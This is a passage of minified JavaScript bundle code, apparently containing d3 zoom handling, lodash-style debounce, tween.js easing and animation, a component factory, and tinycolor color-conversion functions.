e?e.apply(this,arguments):e),i.apply(this,arguments),l)}),null,r)},v.translateTo=function(t,n,e,r,a){v.transform(t,(function(){var t=i.apply(this,arguments),a=this.__zoom,u=null==r?x(t):\"function\"==typeof r?r.apply(this,arguments):r;return o(Ye.translate(u[0],u[1]).scale(a.k).translate(\"function\"==typeof n?-n.apply(this,arguments):-n,\"function\"==typeof e?-e.apply(this,arguments):-e),t,l)}),r,a)},k.prototype={event:function(t){return t&&(this.sourceEvent=t),this},start:function(){return 1==++this.active&&(this.that.__zooming=this,this.emit(\"start\")),this},zoom:function(t,n){return this.mouse&&\"mouse\"!==t&&(this.mouse[1]=n.invert(this.mouse[0])),this.touch0&&\"touch\"!==t&&(this.touch0[1]=n.invert(this.touch0[0])),this.touch1&&\"touch\"!==t&&(this.touch1[1]=n.invert(this.touch1[0])),this.that.__zoom=n,this.emit(\"zoom\"),this},end:function(){return 0==--this.active&&(delete this.that.__zooming,this.emit(\"end\")),this},emit:function(t){var n=zt(this.that).datum();f.call(t,this.that,new Xe(t,{sourceEvent:this.sourceEvent,target:v,type:t,transform:this.that.__zoom,dispatch:f}),n)}},v.wheelDelta=function(t){return arguments.length?(a=\"function\"==typeof t?t:Ve(+t),v):a},v.filter=function(t){return arguments.length?(r=\"function\"==typeof t?t:Ve(!!t),v):r},v.touchable=function(t){return arguments.length?(u=\"function\"==typeof t?t:Ve(!!t),v):u},v.extent=function(t){return arguments.length?(i=\"function\"==typeof t?t:Ve([[+t[0][0],+t[0][1]],[+t[1][0],+t[1][1]]]),v):i},v.scaleExtent=function(t){return arguments.length?(s[0]=+t[0],s[1]=+t[1],v):[s[0],s[1]]},v.translateExtent=function(t){return arguments.length?(l[0][0]=+t[0][0],l[1][0]=+t[1][0],l[0][1]=+t[0][1],l[1][1]=+t[1][1],v):[[l[0][0],l[0][1]],[l[1][0],l[1][1]]]},v.constrain=function(t){return arguments.length?(o=t,v):o},v.duration=function(t){return arguments.length?(c=+t,v):c},v.interpolate=function(t){return arguments.length?(h=t,v):h},v.on=function(){var t=f.on.apply(f,arguments);return t===f?v:t},v.clickDistance=function(t){return arguments.length?(g=(t=+t)*t,v):Math.sqrt(g)},v.tapDistance=function(t){return arguments.length?(y=+t,v):y},v}We.prototype=Ge.prototype;class or extends Map{constructor(t,n=ur){if(super(),Object.defineProperties(this,{_intern:{value:new Map},_key:{value:n}}),null!=t)for(const[n,e]of t)this.set(n,e)}get(t){return super.get(ar(this,t))}has(t){return super.has(ar(this,t))}set(t,n){return super.set(function({_intern:t,_key:n},e){const r=n(e);return t.has(r)?t.get(r):(t.set(r,e),e)}(this,t),n)}delete(t){return super.delete(function({_intern:t,_key:n},e){const r=n(e);t.has(r)&&(e=t.get(r),t.delete(r));return e}(this,t))}}function ar({_intern:t,_key:n},e){const r=n(e);return t.has(r)?t.get(r):e}function ur(t){return null!==t&&\"object\"==typeof t?t.valueOf():t}function sr(t,n){let e;if(void 0===n)for(const n of t)null!=n&&(e<n||void 0===e&&n>=n)&&(e=n);else{let r=-1;for(let i of t)null!=(i=n(i,++r,t))&&(e<i||void 0===e&&i>=i)&&(e=i)}return e}function lr(t,n){let e;if(void 0===n)for(const n of t)null!=n&&(e>n||void 0===e&&n>=n)&&(e=n);else{let r=-1;for(let i of t)null!=(i=n(i,++r,t))&&(e>i||void 0===e&&i>=i)&&(e=i)}return e}var cr=\"object\"==typeof global&&global&&global.Object===Object&&global,hr=\"object\"==typeof self&&self&&self.Object===Object&&self,fr=cr||hr||Function(\"return this\")(),dr=fr.Symbol,pr=Object.prototype,gr=pr.hasOwnProperty,yr=pr.toString,vr=dr?dr.toStringTag:void 0;var _r=Object.prototype.toString;var mr=\"[object Null]\",xr=\"[object Undefined]\",br=dr?dr.toStringTag:void 0;function wr(t){return null==t?void 0===t?xr:mr:br&&br in Object(t)?function(t){var n=gr.call(t,vr),e=t[vr];try{t[vr]=void 0;var r=!0}catch(t){}var i=yr.call(t);return r&&(n?t[vr]=e:delete t[vr]),i}(t):function(t){return _r.call(t)}(t)}var kr=\"[object Symbol]\";var Mr=/\\s/;var zr=/^\\s+/;function Ar(t){return t?t.slice(0,function(t){for(var n=t.length;n--&&Mr.test(t.charAt(n)););return n}(t)+1).replace(zr,\"\"):t}function Sr(t){var n=typeof t;return null!=t&&(\"object\"==n||\"function\"==n)}var Cr=NaN,Er=/^[-+]0x[0-9a-f]+$/i,Or=/^0b[01]+$/i,Nr=/^0o[0-7]+$/i,Pr=parseInt;function jr(t){if(\"number\"==typeof t)return t;if(function(t){return\"symbol\"==typeof t||function(t){return null!=t&&\"object\"==typeof t}(t)&&wr(t)==kr}(t))return Cr;if(Sr(t)){var n=\"function\"==typeof t.valueOf?t.valueOf():t;t=Sr(n)?n+\"\":n}if(\"string\"!=typeof t)return 0===t?t:+t;t=Ar(t);var e=Or.test(t);return e||Nr.test(t)?Pr(t.slice(2),e?2:8):Er.test(t)?Cr:+t}var Tr=function(){return fr.Date.now()},Rr=\"Expected a function\",Dr=Math.max,Ir=Math.min;function Ur(t,n,e){var r,i,o,a,u,s,l=0,c=!1,h=!1,f=!0;if(\"function\"!=typeof t)throw new TypeError(Rr);function d(n){var e=r,o=i;return r=i=void 0,l=n,a=t.apply(o,e)}function p(t){var e=t-s;return void 0===s||e>=n||e<0||h&&t-l>=o}function g(){var t=Tr();if(p(t))return y(t);u=setTimeout(g,function(t){var e=n-(t-s);return h?Ir(e,o-(t-l)):e}(t))}function y(t){return u=void 0,f&&r?d(t):(r=i=void 0,a)}function v(){var t=Tr(),e=p(t);if(r=arguments,i=this,s=t,e){if(void 0===u)return function(t){return l=t,u=setTimeout(g,n),c?d(t):a}(s);if(h)return clearTimeout(u),u=setTimeout(g,n),d(s)}return void 0===u&&(u=setTimeout(g,n)),a}return n=jr(n)||0,Sr(e)&&(c=!!e.leading,o=(h=\"maxWait\"in e)?Dr(jr(e.maxWait)||0,n):o,f=\"trailing\"in e?!!e.trailing:f),v.cancel=function(){void 0!==u&&clearTimeout(u),l=0,r=s=i=u=void 0},v.flush=function(){return void 0===u?a:y(Tr())},v}var Fr=Object.freeze({Linear:Object.freeze({None:function(t){return t},In:function(t){return this.None(t)},Out:function(t){return this.None(t)},InOut:function(t){return this.None(t)}}),Quadratic:Object.freeze({In:function(t){return t*t},Out:function(t){return t*(2-t)},InOut:function(t){return(t*=2)<1?.5*t*t:-.5*(--t*(t-2)-1)}}),Cubic:Object.freeze({In:function(t){return t*t*t},Out:function(t){return--t*t*t+1},InOut:function(t){return(t*=2)<1?.5*t*t*t:.5*((t-=2)*t*t+2)}}),Quartic:Object.freeze({In:function(t){return t*t*t*t},Out:function(t){return 1- --t*t*t*t},InOut:function(t){return(t*=2)<1?.5*t*t*t*t:-.5*((t-=2)*t*t*t-2)}}),Quintic:Object.freeze({In:function(t){return t*t*t*t*t},Out:function(t){return--t*t*t*t*t+1},InOut:function(t){return(t*=2)<1?.5*t*t*t*t*t:.5*((t-=2)*t*t*t*t+2)}}),Sinusoidal:Object.freeze({In:function(t){return 1-Math.sin((1-t)*Math.PI/2)},Out:function(t){return Math.sin(t*Math.PI/2)},InOut:function(t){return.5*(1-Math.sin(Math.PI*(.5-t)))}}),Exponential:Object.freeze({In:function(t){return 0===t?0:Math.pow(1024,t-1)},Out:function(t){return 1===t?1:1-Math.pow(2,-10*t)},InOut:function(t){return 0===t?0:1===t?1:(t*=2)<1?.5*Math.pow(1024,t-1):.5*(2-Math.pow(2,-10*(t-1)))}}),Circular:Object.freeze({In:function(t){return 1-Math.sqrt(1-t*t)},Out:function(t){return Math.sqrt(1- --t*t)},InOut:function(t){return(t*=2)<1?-.5*(Math.sqrt(1-t*t)-1):.5*(Math.sqrt(1-(t-=2)*t)+1)}}),Elastic:Object.freeze({In:function(t){return 0===t?0:1===t?1:-Math.pow(2,10*(t-1))*Math.sin(5*(t-1.1)*Math.PI)},Out:function(t){return 0===t?0:1===t?1:Math.pow(2,-10*t)*Math.sin(5*(t-.1)*Math.PI)+1},InOut:function(t){return 0===t?0:1===t?1:(t*=2)<1?-.5*Math.pow(2,10*(t-1))*Math.sin(5*(t-1.1)*Math.PI):.5*Math.pow(2,-10*(t-1))*Math.sin(5*(t-1.1)*Math.PI)+1}}),Back:Object.freeze({In:function(t){var n=1.70158;return 1===t?1:t*t*((n+1)*t-n)},Out:function(t){var n=1.70158;return 0===t?0:--t*t*((n+1)*t+n)+1},InOut:function(t){var n=2.5949095;return(t*=2)<1?t*t*((n+1)*t-n)*.5:.5*((t-=2)*t*((n+1)*t+n)+2)}}),Bounce:Object.freeze({In:function(t){return 1-Fr.Bounce.Out(1-t)},Out:function(t){return t<1/2.75?7.5625*t*t:t<2/2.75?7.5625*(t-=1.5/2.75)*t+.75:t<2.5/2.75?7.5625*(t-=2.25/2.75)*t+.9375:7.5625*(t-=2.625/2.75)*t+.984375},InOut:function(t){return t<.5?.5*Fr.Bounce.In(2*t):.5*Fr.Bounce.Out(2*t-1)+.5}}),generatePow:function(t){return void 0===t&&(t=4),t=(t=t<Number.EPSILON?Number.EPSILON:t)>1e4?1e4:t,{In:function(n){return Math.pow(n,t)},Out:function(n){return 1-Math.pow(1-n,t)},InOut:function(n){return n<.5?Math.pow(2*n,t)/2:(1-Math.pow(2-2*n,t))/2+.5}}}}),Lr=function(){return performance.now()},qr=function(){function t(){this._tweens={},this._tweensAddedDuringUpdate={}}return t.prototype.getAll=function(){var t=this;return Object.keys(this._tweens).map((function(n){return t._tweens[n]}))},t.prototype.removeAll=function(){this._tweens={}},t.prototype.add=function(t){this._tweens[t.getId()]=t,this._tweensAddedDuringUpdate[t.getId()]=t},t.prototype.remove=function(t){delete this._tweens[t.getId()],delete this._tweensAddedDuringUpdate[t.getId()]},t.prototype.update=function(t,n){void 0===t&&(t=Lr()),void 0===n&&(n=!1);var e=Object.keys(this._tweens);if(0===e.length)return!1;for(;e.length>0;){this._tweensAddedDuringUpdate={};for(var r=0;r<e.length;r++){var i=this._tweens[e[r]],o=!n;i&&!1===i.update(t,o)&&!n&&delete this._tweens[e[r]]}e=Object.keys(this._tweensAddedDuringUpdate)}return!0},t}(),Br={Linear:function(t,n){var e=t.length-1,r=e*n,i=Math.floor(r),o=Br.Utils.Linear;return n<0?o(t[0],t[1],r):n>1?o(t[e],t[e-1],e-r):o(t[i],t[i+1>e?e:i+1],r-i)},Bezier:function(t,n){for(var e=0,r=t.length-1,i=Math.pow,o=Br.Utils.Bernstein,a=0;a<=r;a++)e+=i(1-n,r-a)*i(n,a)*t[a]*o(r,a);return e},CatmullRom:function(t,n){var e=t.length-1,r=e*n,i=Math.floor(r),o=Br.Utils.CatmullRom;return t[0]===t[e]?(n<0&&(i=Math.floor(r=e*(1+n))),o(t[(i-1+e)%e],t[i],t[(i+1)%e],t[(i+2)%e],r-i)):n<0?t[0]-(o(t[0],t[0],t[1],t[1],-r)-t[0]):n>1?t[e]-(o(t[e],t[e],t[e-1],t[e-1],r-e)-t[e]):o(t[i?i-1:0],t[i],t[e<i+1?e:i+1],t[e<i+2?e:i+2],r-i)},Utils:{Linear:function(t,n,e){return(n-t)*e+t},Bernstein:function(t,n){var e=Br.Utils.Factorial;return e(t)/e(n)/e(t-n)},Factorial:function(){var t=[1];return function(n){var e=1;if(t[n])return t[n];for(var r=n;r>1;r--)e*=r;return t[n]=e,e}}(),CatmullRom:function(t,n,e,r,i){var o=.5*(e-t),a=.5*(r-n),u=i*i;return(2*n-2*e+o+a)*(i*u)+(-3*n+3*e-2*o-a)*u+o*i+n}}},$r=function(){function t(){}return t.nextId=function(){return t._nextId++},t._nextId=0,t}(),Hr=new qr,Vr=function(){function t(t,n){void 0===n&&(n=Hr),this._object=t,this._group=n,this._isPaused=!1,this._pauseStart=0,this._valuesStart={},this._valuesEnd={},this._valuesStartRepeat={},this._duration=1e3,this._isDynamic=!1,this._initialRepeat=0,this._repeat=0,this._yoyo=!1,this._isPlaying=!1,this._reversed=!1,this._delayTime=0,this._startTime=0,this._easingFunction=Fr.Linear.None,this._interpolationFunction=Br.Linear,this._chainedTweens=[],this._onStartCallbackFired=!1,this._onEveryStartCallbackFired=!1,this._id=$r.nextId(),this._isChainStopped=!1,this._propertiesAreSetUp=!1,this._goToEnd=!1}return t.prototype.getId=function(){return this._id},t.prototype.isPlaying=function(){return this._isPlaying},t.prototype.isPaused=function(){return this._isPaused},t.prototype.getDuration=function(){return this._duration},t.prototype.to=function(t,n){if(void 0===n&&(n=1e3),this._isPlaying)throw new Error(\"Can not call Tween.to() while Tween is already started or paused. Stop the Tween first.\");return this._valuesEnd=t,this._propertiesAreSetUp=!1,this._duration=n<0?0:n,this},t.prototype.duration=function(t){return void 0===t&&(t=1e3),this._duration=t<0?0:t,this},t.prototype.dynamic=function(t){return void 0===t&&(t=!1),this._isDynamic=t,this},t.prototype.start=function(t,n){if(void 0===t&&(t=Lr()),void 0===n&&(n=!1),this._isPlaying)return this;if(this._group&&this._group.add(this),this._repeat=this._initialRepeat,this._reversed)for(var e in this._reversed=!1,this._valuesStartRepeat)this._swapEndStartRepeatValues(e),this._valuesStart[e]=this._valuesStartRepeat[e];if(this._isPlaying=!0,this._isPaused=!1,this._onStartCallbackFired=!1,this._onEveryStartCallbackFired=!1,this._isChainStopped=!1,this._startTime=t,this._startTime+=this._delayTime,!this._propertiesAreSetUp||n){if(this._propertiesAreSetUp=!0,!this._isDynamic){var r={};for(var i in this._valuesEnd)r[i]=this._valuesEnd[i];this._valuesEnd=r}this._setupProperties(this._object,this._valuesStart,this._valuesEnd,this._valuesStartRepeat,n)}return this},t.prototype.startFromCurrentValues=function(t){return this.start(t,!0)},t.prototype._setupProperties=function(t,n,e,r,i){for(var o in e){var a=t[o],u=Array.isArray(a),s=u?\"array\":typeof a,l=!u&&Array.isArray(e[o]);if(\"undefined\"!==s&&\"function\"!==s){if(l){if(0===(y=e[o]).length)continue;for(var c=[a],h=0,f=y.length;h<f;h+=1){var d=this._handleRelativeValue(a,y[h]);if(isNaN(d)){l=!1,console.warn(\"Found invalid interpolation list. Skipping.\");break}c.push(d)}l&&(e[o]=c)}if(\"object\"!==s&&!u||!a||l)(void 0===n[o]||i)&&(n[o]=a),u||(n[o]*=1),r[o]=l?e[o].slice().reverse():n[o]||0;else{n[o]=u?[]:{};var p=a;for(var g in p)n[o][g]=p[g];r[o]=u?[]:{};var y=e[o];if(!this._isDynamic){var v={};for(var g in y)v[g]=y[g];e[o]=y=v}this._setupProperties(p,n[o],y,r[o],i)}}}},t.prototype.stop=function(){return this._isChainStopped||(this._isChainStopped=!0,this.stopChainedTweens()),this._isPlaying?(this._group&&this._group.remove(this),this._isPlaying=!1,this._isPaused=!1,this._onStopCallback&&this._onStopCallback(this._object),this):this},t.prototype.end=function(){return this._goToEnd=!0,this.update(1/0),this},t.prototype.pause=function(t){return void 0===t&&(t=Lr()),this._isPaused||!this._isPlaying||(this._isPaused=!0,this._pauseStart=t,this._group&&this._group.remove(this)),this},t.prototype.resume=function(t){return void 0===t&&(t=Lr()),this._isPaused&&this._isPlaying?(this._isPaused=!1,this._startTime+=t-this._pauseStart,this._pauseStart=0,this._group&&this._group.add(this),this):this},t.prototype.stopChainedTweens=function(){for(var t=0,n=this._chainedTweens.length;t<n;t++)this._chainedTweens[t].stop();return this},t.prototype.group=function(t){return void 0===t&&(t=Hr),this._group=t,this},t.prototype.delay=function(t){return void 0===t&&(t=0),this._delayTime=t,this},t.prototype.repeat=function(t){return void 0===t&&(t=0),this._initialRepeat=t,this._repeat=t,this},t.prototype.repeatDelay=function(t){return this._repeatDelayTime=t,this},t.prototype.yoyo=function(t){return void 0===t&&(t=!1),this._yoyo=t,this},t.prototype.easing=function(t){return void 0===t&&(t=Fr.Linear.None),this._easingFunction=t,this},t.prototype.interpolation=function(t){return void 0===t&&(t=Br.Linear),this._interpolationFunction=t,this},t.prototype.chain=function(){for(var t=[],n=0;n<arguments.length;n++)t[n]=arguments[n];return this._chainedTweens=t,this},t.prototype.onStart=function(t){return this._onStartCallback=t,this},t.prototype.onEveryStart=function(t){return this._onEveryStartCallback=t,this},t.prototype.onUpdate=function(t){return this._onUpdateCallback=t,this},t.prototype.onRepeat=function(t){return this._onRepeatCallback=t,this},t.prototype.onComplete=function(t){return this._onCompleteCallback=t,this},t.prototype.onStop=function(t){return this._onStopCallback=t,this},t.prototype.update=function(t,n){var e,r,i=this;if(void 0===t&&(t=Lr()),void 0===n&&(n=!0),this._isPaused)return!0;var o=this._startTime+this._duration;if(!this._goToEnd&&!this._isPlaying){if(t>o)return!1;n&&this.start(t,!0)}if(this._goToEnd=!1,t<this._startTime)return!0;!1===this._onStartCallbackFired&&(this._onStartCallback&&this._onStartCallback(this._object),this._onStartCallbackFired=!0),!1===this._onEveryStartCallbackFired&&(this._onEveryStartCallback&&this._onEveryStartCallback(this._object),this._onEveryStartCallbackFired=!0);var a=t-this._startTime,u=this._duration+(null!==(e=this._repeatDelayTime)&&void 0!==e?e:this._delayTime),s=this._duration+this._repeat*u,l=function(){if(0===i._duration)return 1;if(a>s)return 1;var t=Math.trunc(a/u),n=a-t*u,e=Math.min(n/i._duration,1);return 0===e&&a===i._duration?1:e}(),c=this._easingFunction(l);if(this._updateProperties(this._object,this._valuesStart,this._valuesEnd,c),this._onUpdateCallback&&this._onUpdateCallback(this._object,l),0===this._duration||a>=this._duration){if(this._repeat>0){var h=Math.min(Math.trunc((a-this._duration)/u)+1,this._repeat);for(r in isFinite(this._repeat)&&(this._repeat-=h),this._valuesStartRepeat)this._yoyo||\"string\"!=typeof this._valuesEnd[r]||(this._valuesStartRepeat[r]=this._valuesStartRepeat[r]+parseFloat(this._valuesEnd[r])),this._yoyo&&this._swapEndStartRepeatValues(r),this._valuesStart[r]=this._valuesStartRepeat[r];return this._yoyo&&(this._reversed=!this._reversed),this._startTime+=u*h,this._onRepeatCallback&&this._onRepeatCallback(this._object),this._onEveryStartCallbackFired=!1,!0}this._onCompleteCallback&&this._onCompleteCallback(this._object);for(var f=0,d=this._chainedTweens.length;f<d;f++)this._chainedTweens[f].start(this._startTime+this._duration,!1);return this._isPlaying=!1,!1}return!0},t.prototype._updateProperties=function(t,n,e,r){for(var i in e)if(void 0!==n[i]){var o=n[i]||0,a=e[i],u=Array.isArray(t[i]),s=Array.isArray(a);!u&&s?t[i]=this._interpolationFunction(a,r):\"object\"==typeof a&&a?this._updateProperties(t[i],o,a,r):\"number\"==typeof(a=this._handleRelativeValue(o,a))&&(t[i]=o+(a-o)*r)}},t.prototype._handleRelativeValue=function(t,n){return\"string\"!=typeof n?n:\"+\"===n.charAt(0)||\"-\"===n.charAt(0)?t+parseFloat(n):parseFloat(n)},t.prototype._swapEndStartRepeatValues=function(t){var n=this._valuesStartRepeat[t],e=this._valuesEnd[t];this._valuesStartRepeat[t]=\"string\"==typeof e?this._valuesStartRepeat[t]+parseFloat(e):this._valuesEnd[t],this._valuesEnd[t]=n},t}(),Xr=Hr;Xr.getAll.bind(Xr),Xr.removeAll.bind(Xr),Xr.add.bind(Xr),Xr.remove.bind(Xr);var Gr=Xr.update.bind(Xr);function Yr(t,n){for(var e=0;e<n.length;e++){var r=n[e];r.enumerable=r.enumerable||!1,r.configurable=!0,\"value\"in r&&(r.writable=!0),Object.defineProperty(t,(i=r.key,o=void 0,\"symbol\"==typeof(o=function(t,n){if(\"object\"!=typeof t||null===t)return t;var e=t[Symbol.toPrimitive];if(void 0!==e){var r=e.call(t,n||\"default\");if(\"object\"!=typeof r)return r;throw new TypeError(\"@@toPrimitive must return a primitive value.\")}return(\"string\"===n?String:Number)(t)}(i,\"string\"))?o:String(o)),r)}var i,o}function Wr(t,n,e){return n&&Yr(t.prototype,n),e&&Yr(t,e),Object.defineProperty(t,\"prototype\",{writable:!1}),t}function Zr(t,n){return function(t){if(Array.isArray(t))return t}(t)||function(t,n){var e=null==t?null:\"undefined\"!=typeof Symbol&&t[Symbol.iterator]||t[\"@@iterator\"];if(null!=e){var r,i,o,a,u=[],s=!0,l=!1;try{if(o=(e=e.call(t)).next,0===n){if(Object(e)!==e)return;s=!1}else for(;!(s=(r=o.call(e)).done)&&(u.push(r.value),u.length!==n);s=!0);}catch(t){l=!0,i=t}finally{try{if(!s&&null!=e.return&&(a=e.return(),Object(a)!==a))return}finally{if(l)throw i}}return u}}(t,n)||function(t,n){if(!t)return;if(\"string\"==typeof t)return Qr(t,n);var e=Object.prototype.toString.call(t).slice(8,-1);\"Object\"===e&&t.constructor&&(e=t.constructor.name);if(\"Map\"===e||\"Set\"===e)return Array.from(t);if(\"Arguments\"===e||/^(?:Ui|I)nt(?:8|16|32)(?:Clamped)?Array$/.test(e))return Qr(t,n)}(t,n)||function(){throw new TypeError(\"Invalid attempt to destructure non-iterable instance.\\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.\")}()}function Qr(t,n){(null==n||n>t.length)&&(n=t.length);for(var e=0,r=new Array(n);e<n;e++)r[e]=t[e];return r}var Kr=Wr((function t(n,e){var r=e.default,i=void 0===r?null:r,o=e.triggerUpdate,a=void 0===o||o,u=e.onChange,s=void 0===u?function(t,n){}:u;!function(t,n){if(!(t instanceof n))throw new TypeError(\"Cannot call a class as a function\")}(this,t),this.name=n,this.defaultVal=i,this.triggerUpdate=a,this.onChange=s}));function Jr(t){var n=t.stateInit,e=void 0===n?function(){return{}}:n,r=t.props,i=void 0===r?{}:r,o=t.methods,a=void 0===o?{}:o,u=t.aliases,s=void 0===u?{}:u,l=t.init,c=void 0===l?function(){}:l,h=t.update,f=void 0===h?function(){}:h,d=Object.keys(i).map((function(t){return new Kr(t,i[t])}));return function(){var t=arguments.length>0&&void 0!==arguments[0]?arguments[0]:{},n=Object.assign({},e instanceof Function?e(t):e,{initialised:!1}),r={};function i(n){return o(n,t),u(),i}var o=function(t,e){c.call(i,t,n,e),n.initialised=!0},u=Ur((function(){n.initialised&&(f.call(i,n,r),r={})}),1);return d.forEach((function(t){i[t.name]=function(t){var e=t.name,o=t.triggerUpdate,a=void 0!==o&&o,s=t.onChange,l=void 0===s?function(t,n){}:s,c=t.defaultVal,h=void 0===c?null:c;return function(t){var o=n[e];if(!arguments.length)return o;var s=void 0===t?h:t;return n[e]=s,l.call(i,s,n,o),!r.hasOwnProperty(e)&&(r[e]=o),a&&u(),i}}(t)})),Object.keys(a).forEach((function(t){i[t]=function(){for(var e,r=arguments.length,o=new Array(r),u=0;u<r;u++)o[u]=arguments[u];return(e=a[t]).call.apply(e,[i,n].concat(o))}})),Object.entries(s).forEach((function(t){var n=Zr(t,2),e=n[0],r=n[1];return i[e]=i[r]})),i.resetProps=function(){return d.forEach((function(t){i[t.name](t.defaultVal)})),i},i.resetProps(),n._rerender=u,i}}var ti=function(t){return\"function\"==typeof t?t:\"string\"==typeof t?function(n){return n[t]}:function(n){return t}};function ni(t){return ni=\"function\"==typeof Symbol&&\"symbol\"==typeof Symbol.iterator?function(t){return typeof t}:function(t){return t&&\"function\"==typeof Symbol&&t.constructor===Symbol&&t!==Symbol.prototype?\"symbol\":typeof t},ni(t)}var ei=/^\\s+/,ri=/\\s+$/;function ii(t,n){if(n=n||{},(t=t||\"\")instanceof ii)return t;if(!(this instanceof ii))return new ii(t,n);var e=function(t){var n={r:0,g:0,b:0},e=1,r=null,i=null,o=null,a=!1,u=!1;\"string\"==typeof t&&(t=function(t){t=t.replace(ei,\"\").replace(ri,\"\").toLowerCase();var n,e=!1;if(bi[t])t=bi[t],e=!0;else if(\"transparent\"==t)return{r:0,g:0,b:0,a:0,format:\"name\"};if(n=Ti.rgb.exec(t))return{r:n[1],g:n[2],b:n[3]};if(n=Ti.rgba.exec(t))return{r:n[1],g:n[2],b:n[3],a:n[4]};if(n=Ti.hsl.exec(t))return{h:n[1],s:n[2],l:n[3]};if(n=Ti.hsla.exec(t))return{h:n[1],s:n[2],l:n[3],a:n[4]};if(n=Ti.hsv.exec(t))return{h:n[1],s:n[2],v:n[3]};if(n=Ti.hsva.exec(t))return{h:n[1],s:n[2],v:n[3],a:n[4]};if(n=Ti.hex8.exec(t))return{r:Ai(n[1]),g:Ai(n[2]),b:Ai(n[3]),a:Oi(n[4]),format:e?\"name\":\"hex8\"};if(n=Ti.hex6.exec(t))return{r:Ai(n[1]),g:Ai(n[2]),b:Ai(n[3]),format:e?\"name\":\"hex\"};if(n=Ti.hex4.exec(t))return{r:Ai(n[1]+\"\"+n[1]),g:Ai(n[2]+\"\"+n[2]),b:Ai(n[3]+\"\"+n[3]),a:Oi(n[4]+\"\"+n[4]),format:e?\"name\":\"hex8\"};if(n=Ti.hex3.exec(t))return{r:Ai(n[1]+\"\"+n[1]),g:Ai(n[2]+\"\"+n[2]),b:Ai(n[3]+\"\"+n[3]),format:e?\"name\":\"hex\"};return!1}(t));\"object\"==ni(t)&&(Ri(t.r)&&Ri(t.g)&&Ri(t.b)?(s=t.r,l=t.g,c=t.b,n={r:255*Mi(s,255),g:255*Mi(l,255),b:255*Mi(c,255)},a=!0,u=\"%\"===String(t.r).substr(-1)?\"prgb\":\"rgb\"):Ri(t.h)&&Ri(t.s)&&Ri(t.v)?(r=Ci(t.s),i=Ci(t.v),n=function(t,n,e){t=6*Mi(t,360),n=Mi(n,100),e=Mi(e,100);var r=Math.floor(t),i=t-r,o=e*(1-n),a=e*(1-i*n),u=e*(1-(1-i)*n),s=r%6,l=[e,a,o,o,u,e][s],c=[u,e,e,a,o,o][s],h=[o,o,u,e,e,a][s];return{r:255*l,g:255*c,b:255*h}}(t.h,r,i),a=!0,u=\"hsv\"):Ri(t.h)&&Ri(t.s)&&Ri(t.l)&&(r=Ci(t.s),o=Ci(t.l),n=function(t,n,e){var r,i,o;function a(t,n,e){return e<0&&(e+=1),e>1&&(e-=1),e<1/6?t+6*(n-t)*e:e<.5?n:e<2/3?t+(n-t)*(2/3-e)*6:t}if(t=Mi(t,360),n=Mi(n,100),e=Mi(e,100),0===n)r=i=o=e;else{var u=e<.5?e*(1+n):e+n-e*n,s=2*e-u;r=a(s,u,t+1/3),i=a(s,u,t),o=a(s,u,t-1/3)}return{r:255*r,g:255*i,b:255*o}}(t.h,r,o),a=!0,u=\"hsl\"),t.hasOwnProperty(\"a\")&&(e=t.a));var s,l,c;return e=ki(e),{ok:a,format:t.format||u,r:Math.min(255,Math.max(n.r,0)),g:Math.min(255,Math.max(n.g,0)),b:Math.min(255,Math.max(n.b,0)),a:e}}(t);this._originalInput=t,this._r=e.r,this._g=e.g,this._b=e.b,this._a=e.a,this._roundA=Math.round(100*this._a)/100,this._format=n.format||e.format,this._gradientType=n.gradientType,this._r<1&&(this._r=Math.round(this._r)),this._g<1&&(this._g=Math.round(this._g)),this._b<1&&(this._b=Math.round(this._b)),this._ok=e.ok}function oi(t,n,e){t=Mi(t,255),n=Mi(n,255),e=Mi(e,255);var r,i,o=Math.max(t,n,e),a=Math.min(t,n,e),u=(o+a)/2;if(o==a)r=i=0;else{var s=o-a;switch(i=u>.5?s/(2-o-a):s/(o+a),o){case t:r=(n-e)/s+(n<e?6:0);break;case n:r=(e-t)/s+2;break;case e:r=(t-n)/s+4}r/=6}return{h:r,s:i,l:u}}function ai(t,n,e){t=Mi(t,255),n=Mi(n,255),e=Mi(e,255);var r,i,o=Math.max(t,n,e),a=Math.min(t,n,e),u=o,s=o-a;if(i=0===o?0:s/o,o==a)r=0;else{switch(o){case t:r=(n-e)/s+(n<e?6:0);break;case n:r=(e-t)/s+2;break;case e:r=(t-n)/s+4}r/=6}return{h:r,s:i,v:u}}function ui(t,n,e,r){var i=[Si(Math.round(t).toString(16)),Si(Math.round(n).toString(16)),Si(Math.round(e).toString(16))];return r&&i[0].charAt(0)==i[0].charAt(1)&&i[1].charAt(0)==i[1].charAt(1)&&i[2].charAt(0)==i[2].charAt(1)?i[0].charAt(0)+i[1].charAt(0)+i[2].charAt(0):i.join(\"\")}function si(t,n,e,r){return[Si(Ei(r)),Si(Math.round(t).toString(16)),Si(Math.round(n).toString(16)),Si(Math.round(e).toString(16))].join(\"\")}function li(t,n){n=0===n?0:n||10;var e=ii(t).toHsl();return e.s-=n/100,e.s=zi(e.s),ii(e)}function ci(t,n){n=0===n?0:n||10;var e=ii(t).toHsl();return e.s+=n/100,e.s=zi(e.s),ii(e)}function hi(t){return ii(t).desaturate(100)}function fi(t,n){n=0===n?0:n||10;var e=ii(t).toHsl();return e.l+=n/100,e.l=zi(e.l),ii(e)}function di(t,n){n=0===n?0:n||10;var e=ii(t).toRgb();return e.r=Math.max(0,Math.min(255,e.r-Math.round(-n/100*255))),e.g=Math.max(0,Math.min(255,e.g-Math.round(-n/100*255))),e.b=Math.max(0,Math.min(255,e.b-Math.round(-n/100*255))),ii(e)}function pi(t,n){n=0===n?0:n||10;var e=ii(t).toHsl();return e.l-=n/100,e.l=zi(e.l),ii(e)}function gi(t,n){var e=ii(t).toHsl(),r=(e.h+n)%360;return e.h=r<0?360+r:r,ii(e)}function yi(t){var n=ii(t).toHsl();return n.h=(n.h+180)%360,ii(n)}function vi(t,n){if(isNaN(n)||n<=0)throw new Error(\"Argument to polyad must be a positive number\");for(var e=ii(t).toHsl(),r=[ii(t)],i=360/n,o=1;o<n;o++)r.push(ii({h:(e.h+o*i)%360,s:e.s,l:e.l}));return r}function _i(t){var n=ii(t).toHsl(),e=n.h;return[ii(t),ii({h:(e+72)%360,s:n.s,l:n.l}),ii({h:(e+216)%360,s:n.s,l:n.l})]}function mi(t,n,e){n=n||6,e=e||30;var r=ii(t).toHsl(),i=360/e,o=[ii(t)];for(r.h=(r.h-(i*n>>1)+720)%360;--n;)r.h=(r.h+i)%360,o.push(ii(r));return o}function xi(t,n){n=n||6;for(var 